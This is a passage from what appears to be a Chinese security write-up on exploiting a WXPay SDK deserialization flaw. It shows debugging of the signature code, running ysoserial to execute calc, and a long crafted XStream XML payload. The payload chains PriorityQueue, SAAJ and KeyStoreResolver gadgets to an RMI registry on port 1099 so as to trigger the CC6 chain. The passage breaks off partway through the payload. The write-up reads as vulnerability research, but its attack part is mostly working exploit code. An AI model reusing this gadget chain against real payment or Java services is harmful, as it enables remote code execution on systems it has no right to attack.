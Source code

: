 复制配置信息到本地测试代码，创建一个新的 WXPay 实例，调用刚才的isResponseSignatureValid方法，将找到的配置信息传入进去,在生成sign签名的代码打上断点，进行调试sign签名。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjOsC1KuJKjaAOBFdqR3GZYLic5ic1icf7gW4JrphibicOACBRVvHR2LWzbLVw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjOOFQQUIRSHbt0a2gqB2RBic3UgBX3EibVrusLCIyjNTeMq68pfOG6y0hg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjOuRZVx6OpZLJQ1AfnoeVITB3qIG5JyXKRHcalwqzbDSjtMjEB5as7jg/640?wx_fmt=png "")  
  
使用ysoserial-all.jar工具,执行calc命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjOAEhiaMcTibNpfic9dQFAYfxldGMqLHdGowuUPycsnJNX2eTucc8Sad9Ow/640?wx_fmt=png "")  
  
构造数据包，该数据包是访问本地的1099端口执行cc6利用链  
  
```
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content: &lt;none&gt;</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <multiPart class='com.sun.xml.internal.messaging.saaj.packaging.mime.internet.MimePullMultipart'>
                            <soapPart/>
                            <mm>
                                <it class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                                    <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                        <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                            <names>
                                                <string>aa</string>
                                                <string>aa</string>
                                            </names>
                                            <ctx>
                                                <environment/>
                                                <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                                    <java.rmi.server.RemoteObject>
                                                        <string>UnicastRef</string>
                                                        <string>127.0.0.1</string>
                                                        <int>1099</int>
                                                        <long>0</long>
                                                        <int>0</int>
                                                        <long>0</long>
```